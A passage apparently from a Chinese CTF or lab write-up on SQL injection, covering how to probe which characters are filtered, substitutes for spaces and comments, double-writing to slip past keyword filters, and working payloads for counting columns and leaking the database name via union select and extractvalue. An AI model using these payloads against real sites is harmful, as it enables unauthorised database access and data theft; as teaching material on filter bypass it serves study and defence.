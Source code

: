 


> 
<h3> 2.3、第二步：分析过滤</h3>
方法一：
考虑一步一步将注入语句字符一个一个替换掉，直到不报错（浪费时间）
或者全部替换（如果报错，不知道哪里被过滤了）
<hr/>
方法二：
获取源码进行白盒审计（最优）
<hr/>方法三： 
 eg：输入?id=and or union select --+ updatexml # extractvalue（重要的都输进去）
看输入回显过滤语句的情况



<hr/>
通过一顿操作后
最后可以知道被过滤的字符有
 – , # , 空格 , /，+
union（大小写都过滤）、select（大小写都过滤）
<hr/>
替代空格：
%09  TAB 键（水平）
%0a  新建一行
%0c  新的一页
%0d  return 功能
%0b  TAB 键（垂直）
%a0  空格
空格换成 ||
<hr/>
注释被过滤掉了，就可以使用拼接进语句，将2侧进行闭合
<hr/>
union和select可以使用双写


---


---


---


> 
<h3>2.4、第三步：判断字段数</h3>
?id=0')union(select%0d1,2,'3




> 
<h3>2.5、第四步：暴库</h3>
?id=1')%26%26extractvalue(1, concat(0x7e, database()))%26%26('1


?id=0')unIon%0BSelEcT%0B1,database(),3||('1
